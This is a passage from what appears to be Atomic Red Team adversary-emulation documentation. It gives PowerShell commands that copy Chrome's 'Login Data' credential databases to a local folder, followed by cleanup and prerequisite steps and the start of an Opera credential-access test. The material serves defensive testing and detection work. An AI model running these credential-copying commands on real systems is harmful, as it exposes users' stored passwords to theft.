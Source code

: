 **Supported Platforms:** Windows


**auto_generated_guid:** 3d111226-d09a-4911-8715-fe11664f960d






#### Attack Commands: Run with `powershell`! 


```powershell
Copy-Item "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data" -Destination "PathToAtomicsFolder\..\ExternalPayloads"
Copy-Item "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data For Account" -Destination "PathToAtomicsFolder\..\ExternalPayloads"
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Login Data" -Force -ErrorAction Ignore
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Login Data For Account" -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Chrome must be installed
##### Check Prereq Commands:
```powershell
if ((Test-Path "C:\Program Files\Google\Chrome\Application\chrome.exe") -Or (Test-Path "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
$installer = "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi"
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi" https://dl.google.com/chrome/install/googlechromestandaloneenterprise64.msi
msiexec /i $installer /qn
Start-Process -FilePath "chrome.exe"
Stop-Process -Name "chrome"
```




<br/>
<br/>

## Atomic Test #5 - Simulating access to Opera Login Data
Simulates an adversary accessing encrypted credentials from Opera web browser's login database.

**Supported Platforms:** Windows
